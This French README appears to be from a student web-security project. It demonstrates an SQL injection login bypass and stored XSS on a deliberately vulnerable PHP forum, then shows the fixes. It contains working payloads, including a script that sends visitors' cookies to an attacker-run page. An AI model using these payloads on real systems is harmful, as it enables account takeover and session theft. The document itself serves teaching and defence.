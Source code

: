 # Projet-web-secu
**Ecole**: IMT Atlantique.
Dans le cadre de ce projet, nous sommes partie d’un site web que j’ai développée en PHP sur laquelle j’ai exploré les possibles failles qu’elle pourrait contenir.

L’application est un forum de discussion informatique. qui offre la possibilité de s’authentifier, de soumettre des sujets et desmessages.

**Outils**: PHP, HTML, CSS, MySQL, PHPMYADMIN

**Prérequis:**

   - installer [WampServer](https://www.wampserver.com/)
   - mettre tous les 3 répertoires (siteattaquant, myforum et myforumsecu) à la racine du répertoire www de wamp (e.g sur windows: `C:\wamp64\www`)
   - importer la base de données `myforum.sql` dans phpmyadmin
## Mise en évidence d’une faille d’injection SQL

Pour contribuer au forum c’est-à-dire répondre créer un sujet, ecrire un message, l’on a besoin de se connecter avec un pseudo et un mot de mot de passe. 
Ici nous verons que même un utilisateur qui n’a pas de compte peut se connecter fraduleusement et causer des degâts  avec de l’injection SQL dans la page de login.

Dans la page de connexion nous rentrons le pseudo d’un utilisateur existant `toto` par exemple et unpassword qui n’est pas celle de l’utilisateur toto: `" or ""="` au lieu de `toto`
et on vois que nous sommes connectés comme étant l’utilisateur **toto**. Ce qui nous permet de créer des sujets en tant que utilisateur **toto**.

![](https://github.com/ang67/Projet-secu-webapp/blob/main/img/1.png)

## Solution

Dans la version sécurisé du site (http://localhost/myforumsecu) nous avons utliser les réquêtes préparées dans le code qui permet de se connecter (`loger.php`) pour palier ce problème.
l’ancienne ligne:
`$result =$id_con->query('SELECT * FROM users WHERE id_user="'.$pseudo.'" AND passwd="'.$pass.'" ') ;`
devient:

`$result = $id_con->prepare("SELECT * FROM users where id_user = :pseudo AND passwd = :pass");`
`$result -> execute(array('pseudo' => $pseudo, 'pass' => $pass));`

## Mise en évidence de la faille XSS

Dans la version non sécurisée du site (http://localhost/myforum) mettons dans le champs de commentaire le message `<u>hello attaquant</u>`

On constate que la mise en forme html est faite. Le plus gros problème est que cette faille est persistante, car inscrite dans la base de données.

Ayant connaissance de cette faille, l'attaquant pourrait casser la structure du site. Comme nous le montrerons ici en injectant du code javascript faisant une redirection vers le site google.com.

`<script>document.location="https://www.google.com"</script>`

On constate qu’à chaque ouverture du sujet contenant le code injecté il y a une redirection automatique vers google.com. Ce qui est inquiétant c’est que cela reste permanent.

## Exploitation de la faille

Essayons d’exploiter cette faille afin e voler des cookies qui dans un cas précis pourrait permettre à un attaquant de s'attribuer des rôles plus élevés que prévu.

Ici nous allons écrire un code PHP (https://github.com/ang67/Projet-secu-webapp/tree/main/siteattaquant/index.php) permettant de récupérer les cookies des utilisateurs.
Ce code peut se trouver sur un autre serveur distant (celui de l’attaquant par exemple https://github.com/ang67/Projet-secu-webapp/tree/main/siteattaquant ). Dans ce code on récupère les cookies, puis on les stocke et enfin, on redirige l’utilisateur vers la page d’accueil comme si rien ne s’était passé. Pour notre exemple le site a décidé de sauvegarder les mots de passe et login pour permettre de se souvenir de l’utilisateur lors d’une nouvelle connexion.

Maintenant l’attaquant injecte un code javascript dans un message ou dans un sujet qui redirige vers le code PHP malveillant.

`<script>document.location="http://localhost/siteattaquant?cookie="+document.cookie;</script>`

![](https://github.com/ang67/Projet-secu-webapp/blob/main/img/2.png)

Maintenant l’attaquant a réussi son coup et s’attend à recoter le buttin. Si un l’utilisateur se connect en accèptant que le site se souvienne de lui, ou pour d’autres cookies par exemple, l’attaquant récupère alors toutes ces données sensibles dans un repertoire (`C:\wamp64\www\siteAttaquant\stolen_data.txt`) lors de sa visite sur la page contenant le code injecté.

![](https://github.com/ang67/Projet-secu-webapp/blob/main/img/3.png)

![](https://github.com/ang67/Projet-secu-webapp/blob/main/img/4.png)

![](https://github.com/ang67/Projet-secu-webapp/blob/main/img/5.png)

## Solution

 Dans la version sécurisée du site (http://localhost/myforumsecu) nous avons

  - protégé les cookies en ajoutant l'attribut ***HttpOnly***
  - utilisé la méthode ***htmlspecialchars*** avec le flag *ENT_IGNORE* pour remplacer tous les caractères HTML. (https://www.php.net/manual/fr/function.htmlspecialchars.php)



